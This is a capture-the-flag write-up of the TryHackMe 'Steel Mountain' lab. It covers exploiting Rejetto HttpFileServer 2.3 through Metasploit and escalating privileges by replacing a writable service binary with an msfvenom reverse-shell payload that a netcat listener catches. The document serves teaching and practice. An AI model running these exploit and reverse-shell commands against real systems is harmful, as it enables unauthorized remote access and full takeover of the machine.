




# Steel Mountain

## Recon Stage

I begin with a simple nmap to check what ports are open

```
┌──(kali㉿kali)-[~/TryHackMe/Steel_Mountain]
└─$ nmap -sV -Pn 10.10.70.202                                                                  1 ⚙
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-09 08:48 EST
Nmap scan report for 10.10.70.202
Host is up (0.025s latency).
Not shown: 988 closed ports
PORT      STATE SERVICE            VERSION
80/tcp    open  http               Microsoft IIS httpd 8.5
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
8080/tcp  open  http               HttpFileServer httpd 2.3
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49157/tcp open  msrpc              Microsoft Windows RPC
49163/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.59 seconds
```

As you can see, there are a few different servers running here, including a webserver, SMB server and a httpfile server.

As there was a webserver running on port 80, I quickly checked the website and was presented with this:



I checked the source, and it seems the filename for the image includes the employee's name:

````


Well we could try and gobuster for some directories, especially as this website doesn't look finished, but, for now, I am intrigued by this second webserver running on 8080:



So it's some form of fileserver, let's see whether this could be our attack vector. 

## Exploit Stage

I start searchsploit to see whether there are any available exploits for this version:

```
┌──(kali㉿kali)-[~/TryHackMe/Steel_Mountain]
└─$ searchsploit httpfileserver 2.3                                                      130 ⨯ 1 ⚙
----------------------------------------------------------------- ---------------------------------
 Exploit Title                                                   |  Path
----------------------------------------------------------------- ---------------------------------
Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)      | windows/webapps/49125.py
----------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```


Great, there's a remote command execution for the version running. I fire up metasploit and find and use the module ``xploit/windows/http/rejetto_hfs_exec``

I change the options as required:

```
msf6 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.10.70.202
RHOSTS => 10.10.70.202
msf6 exploit(windows/http/rejetto_hfs_exec) > set RPORT 8080
RPORT => 8080
msf6 exploit(windows/http/rejetto_hfs_exec) > set LHOST 10.9.3.207
LHOST => 10.9.3.207
msf6 exploit(windows/http/rejetto_hfs_exec) > set SRVHOST 10.9.3.207
SRVHOST => 10.9.3.207
```

*I am setting local host options as metasploit defaults to my non-VPN ip address, which is unreachable for the victim machine*




I am then presented with a meterpreter shell. I then navigate over to the desktop in order to find the first user flag:

```
meterpreter > cd Desktop
meterpreter > dir
Listing: C:\Users\bill\Desktop
==============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2019-09-27 07:07:07 -0400  desktop.ini
100666/rw-rw-rw-  70    fil   2019-09-27 08:42:38 -0400  user.txt

meterpreter > cat user.txt
```

## Privilege Escalation Stage

Luckily, TryHackMe gave us a little hint as to where we should be looking for privilege escalation. I started by finding all services running on the machine and printing their name, startname, startmode and pathname as I was searching for an unquoted service executable escalation.

``wmic service get name,startname,pathname,startmode``

In the output I found this service called AdvancedSystemCareService9 which starts as LocalSystem and has an unquoted path:

``AdvancedSystemCareService9  C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe                    Auto       LocalSystem``


However, when I checked the run directory, I found that the directory is actually writable for our current user:




So instead of performing a priviledge escalation using the unquoted path, I abused the weak permissions instead.

First I created a payload binary using msfvenom to be uploaded onto the target and to replace the ASCService.exe:

``msfvenom -p windows/shell_reverse_tcp LHOST=10.9.3.207 LPORT=4443 -e x86/shikata_ga_nai -f exe -o ASCService.exe``

Then, on the target, I stopped the process:

``sc stop AdvancedSystemCareService9``

Then returned to meterpreter and uploaded our payload binary:

```
meterpreter > upload ~/TryHackMe/Steel_Mountain/ASCService.exe
[*] uploading  : /home/kali/TryHackMe/Steel_Mountain/ASCService.exe -> ASCService.exe
[*] Uploaded 72.07 KiB of 72.07 KiB (100.0%): /home/kali/TryHackMe/Steel_Mountain/ASCService.exe -> ASCService.exe
[*] uploaded   : /home/kali/TryHackMe/Steel_Mountain/ASCService.exe -> ASCService.exe
```

On my local machine I start up netcat listening on the port 4443 that we specified:

``nc -l -p 4443``

And on the target machine, I started the service again:

``sc start AdvancedSystemCareService9``

And wholla, we have our system shell:


From here, we can move into the Administrator user's Desktop and view the root token with ``more root.txt``


